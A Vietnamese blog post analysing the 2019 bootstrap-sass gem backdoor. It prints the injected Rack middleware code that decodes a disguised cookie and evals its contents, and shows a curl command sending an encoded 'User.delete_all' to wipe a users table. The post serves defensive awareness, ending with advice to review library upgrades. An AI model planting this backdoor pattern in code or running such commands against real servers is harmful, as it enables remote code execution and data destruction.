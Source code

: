 ```yaml
---
layout: post
title:  "Remote code execution backdoor"
date:   2019-04-12 23:54:00 +0700
categories: [rails, security, backdoor, middleware]
---
```


Tình cờ đọc được một issue trên repo [bootstrap-sass]( https://github.com/twbs/bootstrap-sass/issues/1195) thì biết được cách tạo một backdoor khá hay nên quyết định tìm hiểu.

Phiên bản chứa backdoor được released do một trong số các authors của thư viện bị lộ secret token. Attacker đã released bản này lên rubygems nên khi users upgrade đã dính phải.

Đại khái attacker sẽ inject một đoạn mã vào tầng Rack middleware, cụ thể ở đây sẽ là `Rack::Sendfile` middleware.

```ruby
def call(env)
	begin
		x = Base64.urlsafe_decode64(env['http_cookie'.upcase].scan(/___cfduid=(.+);/).flatten[0].to_s)
        eval(x) if x
   	rescue Exception
    end
    @app.call(env)
end
```

Đoạn mã trên filter đoạn mã thực thi của attacker gửi lên đính kèm trong cookie. Cụ thể ở đây là key có tên là `___cfduid`(Tên này được đặt giống theo tên của một cookie tương tự của [cloudflare](https://support.cloudflare.com/hc/en-us/articles/200170156-What-does-the-CloudFlare-cfduid-cookie-do-), chỉ khác nhau là 3 dấu gạch dưới thay vì 2, làm cho người dùng nhìn vào có thể nhầm lẫn đây là cookie của cloudflare). Đoạn thực thi đã được mã hoá base64 (để tránh sự nghi ngờ bằng mắt thường). Sử dụng hàm `scan` để tách chiết giá trị. Sau đó sử dụng lệnh eval để thực thi đoạn mã chứa trong string đó.

Giả dụ Attacker mặc nhiên biết có một table có tên là `users`. Anh ta muốn xoá dữ liệu ở bảng này.

```ruby
User.delete_all
Base64.encode64("User.delete_all") # VXNlci5kZWxldGVfYWxs
```

Truyền đoạn mã trên lên server thông qua cookie

```shell
curl -v --cookie "___cfduid=VXNlci5kZWxldGVfYWxs; user_id=abc123" http://example.com/users
```

```ruby
x = Base64.urlsafe_decode64(env['http_cookie'.upcase].scan(/___cfduid=(.+);/).flatten[0].to_s)
```

x sẽ nhận được giá trị là `User.delete_all` và sau đó sẽ xoá sạch dữ liệu của bảng users trước khi response về.

Bài học có thể rút ra ở đây là khi nâng cấp thư viện, chúng ta nên kiểm tra lại xem version đó có trên github repo không và chịu khó kiểm tra những thay đổi, cập nhật là gì. Mặc dù hơi tốn công một chút nhưng an toàn vẫn hơn.
